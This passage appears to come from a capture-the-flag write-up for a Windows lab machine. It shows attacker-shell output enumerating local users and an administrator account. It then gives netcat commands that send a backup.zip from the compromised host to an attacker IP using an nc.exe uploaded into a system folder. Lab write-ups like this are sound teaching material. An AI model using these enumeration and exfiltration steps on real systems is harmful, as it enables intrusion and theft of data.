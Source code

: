 ```
C:\tomcat\apache-tomcat-8.5.37\bin>whoami
whoami
arkham\alfred

C:\tomcat\apache-tomcat-8.5.37\bin>net user
net user

User accounts for \\ARKHAM

-------------------------------------------------------------------------------
Administrator            Alfred                   Batman                   
DefaultAccount           Guest                    WDAGUtilityAccount       
The command completed successfully.


C:\tomcat\apache-tomcat-8.5.37\bin>net user Batman
net user Batman
User name                    Batman
Full Name                    
Comment                      
User's comment               
Country/region code          001 (United States)
Account active               Yes
Account expires              Never

Password last set            2/3/2019 9:25:50 AM
Password expires             Never
Password changeable          2/3/2019 9:25:50 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   9/20/2019 4:57:04 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users                
Global Group memberships     *None                 
The command completed successfully.
```

Alfred's Downloads directory contains a file called `backup.zip` which looked interesting. We can bring it back to our local machine to unzip it:
1. Start a local netcat listener `nc -lnvp 443 > backup.zip`
2. From our shell, send the file back to our local machine via the netcat binary we've already uploaded `C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.9 443 < C:\Users\Alfred\Downloads\backups\backup.zip`
